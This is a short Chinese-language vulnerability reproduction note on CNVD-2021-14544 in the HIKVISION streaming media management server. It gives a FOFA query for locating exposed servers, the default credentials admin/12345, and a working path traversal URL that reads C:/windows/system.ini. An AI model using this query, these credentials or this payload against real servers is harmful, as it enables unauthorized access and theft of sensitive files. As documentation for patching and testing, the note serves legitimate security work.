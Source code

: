 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## FOFA

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`

![image-20220519172955875](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191729966.png)

访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```


